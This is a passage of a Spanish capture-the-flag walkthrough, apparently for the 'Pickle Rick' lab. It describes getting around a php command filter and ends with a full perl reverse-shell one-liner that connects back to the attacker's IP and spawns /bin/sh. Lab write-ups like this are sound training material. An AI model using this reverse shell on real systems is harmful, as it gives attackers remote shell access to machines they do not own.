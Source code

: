 ![](/assets/images/PickleRick/image69.png)

En el cuerpo de la respuesta HTTP del servidor, podemos observar que hay varias denegaciones con referencia a php, por lo tanto afirmamos que la aplicacion web esta filtrando los comandos que utilizan el archivo binario php.  

Ahora verificaremos si existe el archivo binario `perl` en el sistema objetivo, con el comando which.

![](/assets/images/PickleRick/image035.png)

bservamos que nos muestra la ruta del archivo binario php en el sistema objetivo, por lo tanto, si tiene el archivo binario perl.

Ahora ejecutaremos el siguiente comando,que nos generará una conexión reverse shell hacia nuestra máquina:
`perl -e 'use Socket;$i="10.8.123.194";$p=1500;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
